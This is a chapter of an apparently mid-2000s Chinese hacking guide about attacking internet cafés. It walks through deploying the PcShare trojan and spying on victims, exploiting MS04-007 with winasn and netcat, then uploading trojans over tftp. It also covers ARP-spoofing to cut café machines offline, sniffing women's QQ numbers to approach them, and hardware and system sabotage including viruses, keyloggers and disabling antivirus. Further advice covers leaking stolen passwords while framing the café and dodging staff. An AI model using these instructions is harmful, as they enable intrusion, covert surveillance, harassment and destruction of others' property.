点击主界面的“生成客户端”按钮，在弹出的“生成客户端执行程序”窗口配置木马服务端。需要配置的选项不多，主要包括以下几点，多数采用默认即可。点击“生成”按钮后，在“另存为”对话框里设置保存文件的位置和名称，这样我们的服务端就配置完了（图5.15）。


图5.15

### 2、控制服务端


图5.16

由于采用的是反弹连接的方式，把你配置好的服务端传播给别人，我们就可以在家“待鸡”了。当有服务端连接到你的机器时，他的机器就会自动出现在界面左面的列表中（图5.16）。选择你要控制的客户，上面有几个选项，分别是“文件管理”“监视客户屏幕”“超级终端”“键盘监控”“进程管理”“注册表管理”“服务管理”“视频监控”。由于时间仓促，没有进行过多测试，仅使用了一台 win98 的客户端，部分功能因为系统原因不做演示，我们分别来看一下可以实现的功能。

##### 文件管理

PCSHARE2005 可以对客户端进行文件管理，可以任意打开、删除、复制、剪切、重命名、修改文件和目录。整个文件管理界面和 Windows 资源管理器十分相似（上手易如反掌），我们可以像操作自己硬盘文件一样操作客户端（图5.17）。


图5.17

##### 监视客户屏幕

新版 Pcshare2005 的屏幕控制比较流畅，图像截取速度较快，清晰度还算可以，点击左上的“控制鼠标和键盘按钮”，可以对客户进行鼠标键盘控制，使用比较方便。呵呵，我控制的机器正在玩“泡泡堂”（图5.18）。

##### 超级终端


图5.18

这个功能的界面比较牛，和 Windows 的 telnet 差不多，使用起来十分亲切，除了连接方式是反向连接以外，没有很多差别，大家就拿它当 telnet 使用吧（图5.19）。

##### 键盘监控

这个是新增加的功能，感觉不是很爽，记录虽然详细，但是没有记录是哪个窗口的，很难辨认。而且你随便点到已经记录的地方，它就继续从你鼠标处记录，可能造成记录错误。感觉像个“记事本”。这个功能估计还在修改，大家可以稍后使用，因为现在此部分功能还有些弱（图5.20）。


图5.19

##### 进程管理

PcShare 可以管理远程计算机的进程，在列表中选中机器后，点击“进程管理”就可以对选中的机器进行进程管理。


图5.20

在这里可以查看进程的“进程ID”“执行文件”“进程级别”等内容。右键单击后可以刷新进程和关闭选中的进程（图5.21）。


图5.21

##### 注册表管理

这个功能的界面和“regedit”差不了多少，只是键的排序有些别扭，作者把常用的键放在了上面，其他的和 regedit 基本相同（图5.22）。


图5.22

#### 5.1.3 溢出

如果网吧的设置比较 BT，我们利用一般的 IPC 种植机就不可能种植成功。我我们利用网管软件来帮助我们种木马，这个我们在第四章就有所提及。不过我们也可以利用最新的远程溢出程序来获得 SHELL，然后种马，再用木马来进行远程管理。早在对网吧的环境分析时，我们就提到过网吧的这一 bug。网吧不经常为 Windows 系统下载补丁。网管们一般关心的是自己的工资，对网吧的安全性关心得较少，尤其是技术比较菜的或是比较懒惰的网管。我们就可以利用这一 bug，利用最新的 Windows 溢出程序来获取其他计算机的系统权限。

下面介绍一种现在网吧可能存在的溢出漏洞及其利用方法。

##### MS-04-007 ASN.1 漏洞

Abstract Syntax Notation 1（ASN.1）是 IT 行业中许多应用程序和设备所使用的一种数据标准，可以使用它来标准化和理解各种平台中的数据。2004 年 2 月，微软公布了其操作系统中 ASN.1 库所存在的一个非常严重的安全漏洞（MS-04-007）。该漏洞是由微软 ASN.1 库中未经检查的缓冲区引起的，攻击者成功利用该漏洞后，可以在远程电脑上以系统权限执行任意代码。在网上很长一段时间没有漏洞利用程序发布，直到 2005 年 6 月远程溢出程序才被公布，因此此漏洞并未引起人们的注意。虽然这个漏洞是 04 年的老洞了，但是因为当时只出现拒绝服务攻击程序，并没有出现溢出漏洞，所以很多人都忽略了该漏洞，并没有打上补丁，仅仅是使用防火墙拦截了对 139 和 445 端口的访问。随着这个溢出程序可以通过 IIS 来触发，如果再将程序调用的 SHELL 改成反向连接的话，没有打上补丁的网管们要小心了。网吧里用此漏洞的成功几率很高，因为网管们一般比较懒，而且也粗心得要命。更难能可贵的是，这个漏洞在利用上不同于别的漏洞只使用一个端口。这个漏洞居然可以使用 5 个不同的服务（自然对应了 5 个端口）。它们是：

| 服务 | 端口 |
|---|---|
| IIS 服务 | 80 |
| IIS-SSL 服务 | 443 |
| SMTP | 25 |
| NetBIOS | 139 |
| SMB | 445 |

首先用 superscan 4.0 来扫描开放有 80、443、25、139、445 端口的主机。新版本的 superscan 似乎已不再满足于端口扫描了，升级带来的新功能有：支持 TCP SYN 和 UDP 扫描，增加了一个小工具箱，包括 Whois、Ping、跟踪路由、区域传送、批量解析、HTTP HEAD 请求、HTTP GET 请求、HTTPS GET 请求等；还有可以枚举 Windows 各种信息，如 NetBIOS、空会话、MAC 地址、用户、组、获取远程机时间、共享、服务，甚至可以获取对方计算机注册表文件的键值等等。界面简洁、大方，容易上手。我们仅仅使用它的端口扫描功能就可以了，程序主界面如图 5.23。由于是汉化版的，界面比较友好。填入 IP 段，其他设置默认就好。因为 superscan 默认的扫描端口已经包括了常见的安全端口，你也可以进入“主机和服务器设置”，进行设置仅扫描 80、443、25、139、445 端口，这样速度会比较快。点击开始扫描按钮，一会儿就会扫描完成。发现有开放 80、443、25、139、445 端口的主机，就可以尝试用工具来溢出了。


图 5.23

漏洞利用我们用 WINASN.EXE。使用方法极其简单：`winasn -p 目标端口 目标IP`，或者 `winasn -s 服务类型 目标IP`。比如我们现在要溢出的是 192.168.0.128，就输入：`winasn -s smb 192.168.0.128`。如果成功的话就会打开对方的 8721 端口。现在我们可以调用 nc 去连接目标主机的 8721 端口：`nc -vv 192.168.0.128 8721`，成功后就得到了对方的一个 cmd shell。接下来就可以利用文件上传工具上传我们的木马，然后在对方机子上运行，就可以用木马来控制它了。我们可以使用 tftpd32，主界面如图 5.24。这种方法在网吧（同一子网段）中比较方便。在本机运行 tftpd32，我们的机子就成为 tftpd 服务器，即可让肉鸡通过命令行从 tftpd 服务器下载文件。具体命令格式如下：`tftp -i yourip get yourfile`，很简单，其他功能就不多讲了。


图 5.24

### 5.2 网吧恶搞

#### 5.2.1 系统崩溃没商量

Windows 2000 有一个比较奇怪的特性：系统终端用户可以通过按住右 Ctrl，同时按两次 Scroll Lock 按键，就可以让整个 Windows 2000 系统完全崩溃。但同时又在 `C:\WinNT\` 下 dump 完整的当前系统内存记录，内存记录文件名是 `memory.dmp`。当然，这个奇怪的特性默认状态下是关闭的，但是我们可以通过修改注册表的方法把它激活：

- 1. 运行 `regedt32.exe`（Windows 2000 的 32 位注册表编辑器）。
- 2. 选择主键：`HKEY_LOCAL_MACHINE\`，然后找到 `SYSTEM\` 下的 `CurrentControlSet\`，选择 `Services\`，进入 `i8042prt\` 中的 `Parameters`。
- 3. 新建一个双字节值。
- 4. 将键名设为 `CrashOnCtrlScroll`。
- 5. 然后再设置一个不为零的值。
- 6. 退出并重启。

当这一切做完后，你就可以尝试让系统崩溃了，按下按键后的效果为黑屏，将会出现以下信息：

```text
*** STOP: 0x000000E2 (0x00000000,0x00000000,0x00000000,0x00000000)
The end-user manually generated the crashdump.
```

既然此漏洞的后果如此严重，我们该如何防范呢？其实我们只要简单地将 `HKEY_LOCAL_MACHINE\SYSTEM\CURRENTCONTROLSET\SERVICES\I8042PRT\PARAMETERS` 注册表项中的 `CRASHONCTRLSCROLL` 删除就 OK 了，就是这么简单，这下 Windows 2000 系统的网管们放心了吧。

#### 5.2.2 掉线好简单

##### 利用工具

这种攻击工具很多，我向大家推荐一个“精锐还原精灵密码读取器”。这个大家（作为 HACKER）应该都珍藏着吧。一般情况下我们用它来读取网络还原精灵的密码，在特殊情况下我们用它来搞破坏，使系统崩溃。只须简单的鼠标点击（图 5.25），瞬间一台电脑的系统就 OVER 了。好可怜啊，看着一命呜呼的电脑，心里有一种说不出来的味道，嘿嘿。上面那个方法有点绝吧，我们做事情可不能这样哦，要做知法守法的好公民。若是在破坏系统的过程中被人发现了，我们可是要去吃官家饭（进了派出所，要吃咸菜啃窝头，生活惨不忍睹……）


图 5.25

但是如果你又实在对网管感到不满，怎么办？我来教你下面这个方法，此方法可以使网吧的机子掉线。你想，如果一个网吧的机子经常掉线的话，那么去这家网吧上网的人就会很少了，人少就没有钱赚。哈哈哈，怎么样？够阴吧。让网吧的日子不好过，勒紧他的钱袋子，让他赔钱，让网吧赶快关门倒闭。人为制造局域网网络堵塞，首先要准备几款局域网攻击工具，这个网上会有很多。向大家推荐两款这样的工具。

- 1. 网吧掉线王 1.0

主界面如图 5.26，使用极其简单：先调节攻击威力，再点击开始就开始攻击了，不一会儿，网吧就掉线了。


图 5.26

- 2. 局域网终结者

程序依赖 WinPcap 3.0，请在使用前先安装。程序用于构造虚假 ARP 包来欺骗网络主机，使被指定的主机从网络中断开；程序只对以路由作为划分的同一局域网内主机产生作用。使用方法：将目标 IP 地址加入到阻断列表中即可（图 5.27 所示为我将 192.168.0.188 加入了阻断列表）。如果退出程序或将目标 IP 从列表中移除，目标主机将在 30~60 秒后恢复正常工作（有的系统可能需要更长时间）。


图 5.27

#### 5.2.3 泡 MM 英雄本色

在网吧上网时会遇到许多的 PLMM，怎么办？心动了，那么怎样才能认识她呢？而且还能让她感觉到自己是有意接近她呢？一本恋爱秘籍上说，女性极易被偶然相遇的男性吸引，神秘性对女性来说是相当重要的。不过，要制造这种偶然性就要靠我们自己了。

下面我就教大家一种可以在神不知鬼不觉的情况下获取 MM 的 QQ 的方法。获取了 QQ，你就可以与她相识了，至少是增加了一些交往的希望。好了，废话少说，看方法吧。

##### QQ Sniffer Ver 2005 build 5.5

该软件有 4 个功能：

- 1. 监听网吧在线 QQ 号码；
- 2. 使某台计算机无法上网；
- 3. 制造 IP 冲突；
- 4. 强制 QQ 聊天。

这里，我们就用它的“监听网吧在线 QQ 号码”功能来获取 PLMM 的 QQ 号。运行后，请先选择要监听的网卡（图 5.28）。选择正确后自动出现网卡物理地址／本机 IP／网关，如果不能自动配置，请手动配置（其参数可以在命令提示符下用 `ipconfig/all` 得到）；如果网吧安装的是集线器（HUB），直接点“监听 QQ 号码”按钮就可以了；否则，请单击“搜索”按钮（必须搜索到后才能进行后面的操作），搜索网内所有在线的计算机（一次只能搜索一个 C 类地址段，如果要搜索非本网段的 C 类 IP，请手动把“本机 IP／搜索网段”改为要搜索网段内任意一个合法的 IP），搜索结果显示在“在线主机 IP”列表框中（如图 5.29）。


搜索到后，在“在线主机 IP”列表框中用“Ctrl”或“Shift”选一个或多个要操作的 IP 地址（至于怎样把 IP 地址和计算机对应起来，有一点技巧：一般网吧为了便于管理和维护，IP 地址最后一部分和座位号相同，你看看自己的 IP 和座位号，一般很容易发现这个规律；或者打开网上邻居，看到那台计算机名字，用 DOS 命令 `ping` 计算机名来看它的 IP）。选择好后按“选定”按钮，结果显示在后面的列表框中（图 5.30）。如果要重新选择，点“重新选择”按钮（图 5.31）。“到交换机／To HUB”是监听时选择网络环境是交换机还是集线器：按钮显示“到交换机”时是 HUB 状态，按钮显示“To HUB”时是交换机状态；如果是交换机状态，长时间监听可能导致对方被监听的计算机无法上网，如果发生这样的情况，请按下“恢复正常”按钮。


- 1. 在交换机环境下，请按要求重新启动计算机（如果有还原精灵等保护可先处理），或者在“开始”→“关闭系统”里选择“重新启动计算机并切换到 MS-DOS 方式”，然后在 DOS 下键入“EXIT”命令回到 Windows。
- 2. 在交换机环境下，请不要对大量计算机操作，也不要长时间操作，否则所选范围的计算机可能无法上网。


“监听 QQ 号码”是得到所选 IP 计算机在线的 QQ 号码。开始监听后，列表中的数据分为两部分：前面是被监听计算机的 IP 地址和端口，后面是得到的 QQ 号码。双击可复制到剪贴板；“清空数据”可清除列表数据；“保存结果”可将监听结果保存到文本文件。

#### 5.2.4 发短信也玩酷

在一家大网吧上网，机器发生故障而自己离吧台很远时，可通过 Windows 2000 的管理功能向网管发送控制台消息。操作步骤为：右键“我的电脑”选“管理”，打开“计算机管理”窗口，然后在“计算机管理（本地）”中选择相关服务并发送控制台消息。


在“发送控制台消息”对话框中可以编辑要发送的信息，也可以添加目标 IP。示例中编辑了一段用于提醒对方的信息。

前提是本机和对方机器的 MESSENGER 服务处于启用状态。在“计算机管理”窗口展开“服务和应用程序｜服务”，在右边所列的本机服务列表中找到 MESSENGER 服务（如图 5.36）。


图 5.35


图 5.36

右键单击选择“属性”（图 5.37），打开“MESSENGER 的属性（本地计算机）”对话框。在该对话框中我们将其设为自动启用（如图 5.38）。然后关掉“MESSENGER 的属性（本地计算机）”对话框，回到计算机管理窗口，右击 MESSENGER，选“启用”就可以了。

其实单纯发信息也用不着那么麻烦。有许多工具就有发短消息的功能。


图 5.37


图 5.38

## 第 5 章 天网网吧


IPBOOK（超级网络邻居）就是这样的一款工具。下面来看看这个 IPBOOK 吧！图 5.39 为它的程序主界面。这款软件的功能十分多，这里我们仅仅用它的短消息发送功能。点击“发短信”按钮，打开“信息”对话框，就可以编辑短消息了，输入 IP 就可以发送了（如图 5.40）。点击“短信群发”按钮就可以给整个局域网发短消息了（图 5.41）。


我们可以冒充网吧管理员给各客户机发消息。不过千万别让网管给抓住了哦！图 5.42 是我编辑了一个短消息并发送成功时的截图。


#### 5.2.5 恶作剧想搞就搞

同学之间、同事之间或者亲友之间可以拿这些东东来开开玩笑，活跃一下上网的气氛，也可以增进彼此之间的感情。沉闷、压抑的环境让人心情不畅，生活缺少色彩。不过，恶作剧就是恶作剧，适可而止就好，可别玩笑开得太大了，伤了彼此的感情可就有点得不偿失了。

##### 1. 四块玉

程序功能：运行后，桌面首先黑屏，然后出现似发生大火灾的画面，火焰由桌面底部向上蔓延，由一点小火苗慢慢变成大火舌，逐渐占据整个屏幕。也挺好看的。在火焰的上方会出现红色文字，每一行几个字，一行消失的瞬间，另一行又紧接着出现。内容如下：

> 四块玉  
> 自相见，心被牵；  
> 为行猜忌几时终？  
> 五花飞尽雪花攀。  
> 日中念，梦中见；  
> 心沉湎。  
> 给自己找一个不开心的理由，  
> 想想那个根本不喜欢自己的女孩，  
> 傻傻的，为了看到她的开心，为了能看到她坐在我身边，哪怕，  
> 哪怕，是为了她男朋友的毕业设计，  
> 一天就做完了那份毕业设计，  
> 她真的好开心，  
> 我也是，  
> 但不知怎的，第二天我就病倒了，整整躺了一天，  
> 事情已经过了好久了，好久好久……  
> 今天，当夕阳的余晖，再一次落在她的身上，  
> 她好美，  
> 她在玩羽毛球，和另一个男孩子，  
> 我不认识……  
> 给自己放一首过时的流行歌曲，  
> 翻翻电脑里的垃圾，  
> 醉了，格式了电脑里的一切，  
> 就这样，  
> 日子一天天地过去，  
> 记忆的阴影不时叩响心灵的枷锁，昔日的面庞不停钻入骨髓的缝隙，  
> 晶莹的玻璃碎片稀稀落落地掉在心底，  
> 好想她，  
> 好想她，  
> 那天，在网上看到她，  
> 我好兴奋，好兴奋，不知道自己该说些什么，  
> 我告诉她，手机换了号码……  
> 命运的巨轮不停地转动，  
> 我离她越来越远；  
> 也许，一开始就是个 Bug，  
> 只是我自己不想承认……

好浪漫的一首情诗啊，哈哈哈，程序纯属恶作剧，按 ESC 键即可退出。


##### 2. FallingIcons

桌面搞怪小程序。程序运行后，桌面上的图标掉落到桌面底部（如图 5.43），而且还会有一些功能上的限制。退出方法：点击程序在系统托盘的图标（图 5.44），出现如图 5.45 对话框，点“确定”，OK。


##### 3. 无聊者

无聊者是一款小巧的恶作剧软件，该软件在后台运行，运行后将会给你开 10000 个 DOS 窗口，不会对系统造成任何破坏，是一款与朋友开玩笑的恶作剧程序。

### 4. 垃圾参“5.0 个人版”

程序功能：破坏文件的打开方式，无论你打开什么文件都会显示：我叫“垃圾参”，是“人参”的新品种，有很高的营养价值和医用价值，特别适合爱美的女性朋友，听说俺还预防“非典”哪！支持文件改名；支持文件合并器；不会被瑞星、金山、KV3000 杀毒王、kill、pclink 等查杀；在 Win98/Me、NT5.0、NT5.1 下测试通过。注意，Win2000/XP 用户不要玩火，Win98/Me 虽然可以恢复，但是“垃圾参”的变种后代不好清除呀！“垃圾”功能随着打开文件的增多，会在硬盘上产生“垃圾参”的变种后代。优点是，它不会像病毒一样破坏你的文件，请……不要担心，不要乱删除文件呀：）

预防用“老人参防护卡”，使用：将“老人参防护卡”和“恶作剧程序”放在同一目录下即可。

注意：如果“老人参防护卡”和“恶作剧程序”没有放在同一目录下，“恶作剧程序”是可以运行的。

## 5. 女鬼3之见鬼

警告：本程序可能会吓死人！胆小以及有心脏病者或癫痫症者禁止运行本程序！否则后果自负！吓MM的利器，女鬼3会在每晚的12点以后才会出现。所以有熬夜上网习惯的朋友可要小心了，呵呵！这次会随机出现动画，动画共有6段。强烈建议在晚上12点以后开着音箱关着灯玩，效果更佳！胆小的千万别玩。特别申明的是，本程序只是娱乐程序，不是病毒！不会对你的系统造成任何破坏，不会写你系统的注册表。需要退出程序请直接按下“HOME+9”键，这时会弹出窗口，问你是否退出并自动清除（都选是则下次开机就不会自动运行了）。程序是VB6做的，如果运行不了，需要下载 msvbvm60.dll 文件到你计算机 Windows 目录下。假如你认为本程序好玩推荐给朋友时请务必附本说明文件，说明退出方法，避免你的朋友日日受女鬼纠缠而无法自拔。

### 5.3 折磨网吧没商量

常在网吧这个江湖里飘，大家一定见过不少的BT网管与BT的BOSS，要是不整治一下他们，他们还真不知道自己是几斤几两，也不符合我们广大小菜的逻辑。本来嘛！到你家来上网，干嘛？把脸拉得比猪八戒还难看，到我的行者网吧来上我都是笑脸相迎的！所以有的时候整一整网吧也是可以的！不过如果各位因为这个而被网管给物理碰撞了，导致的损失大圣我绝对不负责赔偿的啊！

首先，我们要了解被破坏网吧的客观环境，还要了解网吧人员的实地监测等。尤其要注意看有没有闭路电视监控。如果网吧人员对你的个人资料相当熟悉，就住手吧，免得惹麻烦了。部分网吧要出示身份证也不要破坏了。以下破坏方法不分先后，请量力灵活运用若干破坏组合，具体操作细节不详细说了。

### 5.3.1 CMOS破坏

尽情乱调吧，电脑系统的好多问题都出在CMOS设置错误！！例如：电源设置错误，硬盘数据调错等。这样的隐形错误好多都是不容易发现。最过瘾的莫过于临走前加个开机密码，你只用几秒钟，网管人员就要用几分钟拆机去掉CMOS密码。

### 5.3.2 CIH类破坏

CIH类的病毒够厉害吧。除了CIH病毒，其他攻击硬件的病毒也有不少哦！把病毒发作条件调到我们离开才发作。而菜鸟问这些病毒怎么去找啊！哈哈，借助搜索引擎很多都能找到的啊！

#### 5.3.3 硬盘类破坏

硬盘破坏软件多到泛滥。黑客站（病毒站）每天都出现更厉害的新病毒。旧病毒“KV300逻辑锁”就蛮厉害的，软硬盘都无法启动！HD-FILL等蠕虫软件也是有大杀伤力，硬盘瞬间充满废文件，硬盘无法使用！相反的做法是低格硬盘类病毒，低格会物理伤害硬盘，多次低格硬盘就会报废！

#### 5.3.4 超频破坏

超频对电脑有损害，大家都知道！超频带来的系统不稳定，是隐性的，不容易发现！CPU软超频，显卡也超频，硬盘也可以超频等！超频也容易引来黑屏和蓝屏。此法阴险，需要破坏者有相当的电脑知识。

#### 5.3.5 系统破坏

破坏必修课。对付网管软件（美萍，网管大师等），多留意黑客网站上的新破解方法。有心就很容易找到的。对付隐藏的系统克隆文件也要找出来（用PQ6等），大肆破坏，至少也要加些病毒进去呀。同时也要把隐藏的分区找出来，进行必要的破坏。最好我们也搞点隐藏，可以隐藏网吧的分区（文件）等。该出手时，就出手，绝对不要手下留情，对敌人仁慈就是对自己残忍！还有就是破坏网吧的杀毒软件和防火墙，这是必要的，像卸掉KV3000，安装假的KV3000等，至少也要让杀毒软件带毒。破防火墙的软件去病毒网站找找，包你有惊喜发现。当然我们也可以下载其他的系统保护软件，让Windows锁定，让其他人不能设置保存。

#### 5.3.6 破解密码

电脑上有很多密码都是有用的。网管软件（美萍等）的密码都是可以破解的，黑客站有你需要的资料。不知道就去问资深的黑客吧，他们乐意帮谦虚的你。局域网的共享密码也可以破解，把破坏延伸到其他的电脑，扩大战果。有空把网吧的代理主机的上网密码也破解出来。简单点就可以安装个“键盘幽灵”等键盘记录软件，什么账号密码都会无处遁形。破解OICQ密码的软件，多到泛滥。把得到的账号密码巧妙地公布天下！最好栽赃祸是网吧泄露出去的！没有安全感的网吧是难有人去消费的，没有消费者是对网吧的最大破坏。不过这个我嘱咐大家，轻易不要使用啊！

#### 5.3.7 木马破坏

在电脑上安装木马可谓历史悠久，木马可以遥控网吧的电脑，“远程破坏”这样的文章和软件随地都是，不占篇幅过多介绍了。最好尽力把木马装到网吧代理上网主机上面。关键是要选好的木马！用捆绑软件把病毒和木马和主要的软件捆绑起来！（例如 IE 和 OICQ 等）。黑客网站和木马网站会令你有新惊喜！

#### 5.3.8 其他破坏

简单硬件破坏，例如把主机的 reset 键堵住（等于按住 reset 不放），键盘“不小心”进水等。

#### 5.3.9 更多破坏

多些留意电脑类书籍中的故障和维修等文章。里面有太多的经验可以吸收！有很多恼人的破坏方法。上黑客网站了解最新的攻防知识！还有充分了解中国的刑法！

#### 5.3.10 卧虎藏龙的破坏

在你动手破坏之前，要想好先后次序。最好先去实地踩点，了解第一手详细资料，下次过去动手。不要经常出入同一网吧，容易引起注意。个人安全一定要做足够。最好做个全屏遮盖的快捷键，预防网吧人员的走近。假如被发现就一定要·#￥—**），死都不认账！

#### 5.3.11 叫所有机器全部掉线

刚才讲的10种方法，虽然简单有效，但是大圣我感觉还是比较偏于物理破坏，如果想在有监视器和用身份证上网的网吧里也能随心所欲地好好玩，那么我们离不开一款掉线的工具。那就是“网络执法官”。

网络执法官是一款网管软件，可用于管理局域网，能禁止局域网任意机器连接网络。对网管来说，这个功能很实用，可是对我们来说就是个搞事情的好工具。我们可以利用它的这一功能禁止一些机器或禁止所有机器（当然是不包括自己的了！）正常上网。


图5.46

在局域网中任意一台机器上运行网络执法官的主程序 NetRobocop.exe，都可以穿透防火墙，实时监控并记录整个局域网用户上线情况，限制各用户上线时所用的IP、时段，并可将非法（凡是影响我们正常上网，如打游戏大声喧哗了，大声说笑了，下载BT，影响网速，妨碍我们学习黑客技术的都视为非法者！）用户踢下局域网。软件适用范围为局域网内部，不能对网关或路由器外的机器进行监视或管理，适合局域网管理员使用。我们下载并运行，如图5.46。首先出来个提示，不过不用管，老规矩，直接点继续就可以了啊。进去后必须选下监控范围，否则执法官是不会执法的。很简单的，我们直接点下“添加/修改”，执法官就自动地给添加上了一个IP地址范围，这个就是默认的本个局域网的。如图5.47，我们点确定后就进入了界面了。

进入后可以看到所有主机的列表都在里面（图5.48）。


图5.47


图5.48

要限制某台机器上网，只要选择指定的网卡号或在用户列表中点击该网卡所在行，从右键菜单中选择“权限”即可限制该用户的权限。如图5.49。对于未登记网卡，可以这样限定其上线：设定好所有已知用户（登记），将网卡的默认权限改为禁止上线即可阻止所有未知的网卡上线。其原理是通过ARP欺骗发给被攻击的电脑一个假的网关IP地址对应的MAC，使其找不到网关真正的MAC地址，这样就可以禁止其上网。


不过最管用的就是锁定用户的机器，如图5.50。在你这个列表里想锁谁的机器就锁谁的机器。一般时候，当你锁定后，不到10秒，你就会发现目标机器的人开始忙碌起来（哈哈，因为他上不去网啊！）我们可以按住SHIFT键，然后选择所有列表的机器，然后来一个锁定，过几秒，你就会听到网吧里叫骂、痛苦、哀鸣不断！因为都掉线了啊！如图5.51。


### 5.5 在网吧里做“懒黑客”

#### 5.5.1 “网吧同步专家”抓肉鸡

有些网吧安装有“网吧同步专家”这个软件（其实是个木马了，合法的木马，用了个非木马的名字嘛，以为人家就不懂了，呵呵），有了它以后，成就我们的“懒黑客”之梦就轻松了！下载并运行，可以看到东西好多啊，如图5.52。


图5.52


图5.53

先来看一下它的组成部分：

- **服务器端文件：**
  - `SEBarSvr.exe`：软件的服务器端程序
  - `HookDll.dll`：服务器端动态库
  - `SEBarSvr.cfg`：服务器端配置文件
  - `NetSet.exe`：网络设置程序
  - `SEReg.exe`：注册程序
  - `SEUpdate.exe`：用于远程升级客户机的程序
- **客户端文件：**
  - `SEBarSvr`：软件的客户端程序

运行SEBarSvr，这是软件的服务器端程序，如图5.53，在客户机列表中显示出来的就是你的“肉鸡”了！你可以对选中的“鸡”锁屏、解屏、远程控制。密码都不用输就能用来控制别人的电脑，可是大大地方便了我们这些网吧小黑呀。

#### 5.5.2 最傻的免费上网大法

开机，一直按着F8，进入安全模式里去免费上网。不过当我们进入后会发现安全模式有两个，一个是安全模式，一个是带有网络连接的安全模式。当然是选择那个带有网络连接的安全模式了。进入后，如图5.54。看见了吗？完全可以上网的。不过，要小心呀，因为这么不一般的桌面，网管一下就会看到的！如果实在要用，就尽快打开一个站点，把桌面盖住，这样就可以顺利地免费上网了！


图5.54

#### 5.5.3 做一个破解硬盘锁定的网页

硬盘锁定了是不是很苦恼啊？破解的方法我们在前面也介绍过了。接下来我就再给大家介绍一个懒人的方法，就是把下边的源码另存为 HTML 或 HTM 文件，打开运行就可以了！

```html
<HTML><HEAD><TITLE>(懒办法解锁搞定网页)</TITLE>
<META http-equiv="Content-Type" content="text/html; charset=gb2312">
<META content="Microsoft FrontPage 4.0" name="GENERATOR"></HEAD>
<BODY bgColor="#C0C0C0" text="#000000" link="#000000" vlink="#000000" alink="#000000">
<DIV align=center>
<P><FONT face="仿宋_GB2312" color=red size=6><a href="http://xiao520520.e6t.net"></a></FONT></P></DIV><BR>
<CENTER>
<TABLE borderColor=blue border=5 borderlight="green">
<TBODY>
<TR>
<TD align=middle><FONT face="仿宋_GB2312" color=#ff3333 size=3>懒办法解锁搞定网页<BR>(请勿破坏网吧电脑C:/盘系统文件否则后果自负。)</FONT></TD></TR>
<TR>
<TD align=middle width=300 height=100>
<FORM action=file:///c:/><INPUT type=submit value="c:" name=submit></FORM>
<P>
<FORM action=file:///a:/><INPUT type=submit value="a:\\ drive" name=submit2></FORM>
</P>
<FORM action=file:///d:/> <INPUT type=submit value="d:\\ drive" name=submit2>
</FORM>
<P>
<FORM action=file:///e:/> <INPUT type=submit value="e:\\ drive" name=submit2>
</FORM>
<P>
<FORM action=file:///f:/> <INPUT type=submit value="f:\\ drive" name=submit2>
</FORM>
<P>
<FORM action=file:///g:/> <INPUT type=submit value="g:\\ drive" name=submit2>
</FORM>
<P>
<FORM action=file:///h:/> <INPUT type=submit value="h:\\ drive" name=submit2>
</FORM>
<P></P></TD></TR></TBODY></TABLE></CENTER><BR><BR><BR><BR></BODY></HTML>
```

#### 5.5.4 长春再度“懒办法”免费上网

首先，我们可以正常进入对方的系统（倘若有什么限制的话，可以使用前边书中介绍的破解方法），我们打开注册表，到 HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/Run 下看看并删删就可以了，即使你将里面的所有键值都删掉也没有问题，如图5.55。然后在 HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/RunOnce 下也许会有键值，一样地删除掉。去 HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Run 里面，HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/RunOnce 和 HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/RunService 里面会有键值，都删掉就可以了。然后重启，就会生效。当然前提是在进行上述操作前，一定要先把还原卡给破解了。


图5.55

### 5.5.5 免费获得QQ秀

最近QQ秀很“火”，看着许多好友都换了可爱的QQ秀形象，是不是也想让自己的QQ“秀”一把呢？但是因为我们比较懒，不愿意去搞入侵，不愿意去挨个机器下木马，然后盗QQ号，从而买这些号里的QB买QQ秀，那怎么办？好办得很！懒人一样可以获得好看的QQ秀的啊！

打开QQ秀商城，许多QQ秀商品都是收费的，而且一个QQ秀形象有效期仅为6个月，未免有点遗憾。其实QQ秀商城还为我们准备了“免费的午餐”，有许多不要钱的QQ秀可供选择哟，我们来看看如何使用。


在QQ主菜单上单击“个人设置”，打开“用户资料修改”窗口，在“基本资料”选项卡中点击“去QQ秀商城”链接，如图5.56，这时会同时打开浏览器窗口，而且已经自动使用你的QQ号码登录到QQ秀商城了。第一次使用必须在这里填写昵称、性别等资料，并点击“提交修改”注册到QQ社区，如图5.57。不注册是无法使用QQ秀的，注册好了以后，鼠标左键点击“搜索”。


这时会出现如图5.58所示的界面，在“第一个空格”中不要填写任何内容，然后点击“性别不限”下拉框选择性别，点击“类型不限”下拉框选择类型，单击“价格不限”下拉框选择“0.5Q币以下”，最后单击“搜索”按钮。点击后会出现一个对话提示框，点击“确定”，这时会在下面的商品列表中列出许多售价为“0.00 Q币”的QQ秀商品，这些都是免费的了，而且数量还不少呢！

从免费的QQ秀商品列表中选择一个形象，点击“试穿”按钮，就可以在窗口左上角的形象预览区中看到结果。合适的话点击“保存形象”按钮，这时会提示你商品尚未购买，并同时弹出“我的购物袋”窗口。在这里点击“账户支付”按钮，系统就会弹出购买成功和保存用户形象成功的提示。现在，你已经免费获得了一件QQ秀商品了！详细操作方法请看QQ秀操作流程。

好了，让你的好友在你头像提示框上点击“更新形象”按钮即可看到你的QQ秀形象了。


### 5.5.6 教你免费获得QQ秀合影的方法

在QQ聊天室，遇到一位投机的Q友，想约她去照张相，留个纪念，可惜囊中羞涩，连一个QQ币也没有，怎么办？放弃？多遗憾。用软件？自己又是个电脑白痴！

其实腾讯公司也并不总是不善解人意的，照相馆专门为没Q币的朋友设计了“免费的午餐”，现在就给大家介绍一种只用浏览器就能拍照的方法。

首先打开QQ照相馆 http://game.qq.com/camera/index.shtml ，在“发起合影”处填入你想合影的对象，点击发起。瞧，什么都有了吧。你就疯狂地选场景吧（都是免费的），搞完这些以后，在页面的右边会出现照片预览，如图5.59。不过我的QQ形象的确不太好啊！呵呵！免费的午餐就是它！还等什么？还不赶快用QQ截图把它截下来？如图5.60。


提示：实际意义上的QQ合影已经完成了。但是细心的朋友会发现照片上的日期和Q号是默认的。如果你喜欢完美就用PHOTOSHOP处理一下了，不懂的也没办法了，凡事都没有完美的嘛。另外，照片一定要用截图。

截出来，直接复制是看不到的。

#### 5.5.7 “懒”菜鸟，也要自由

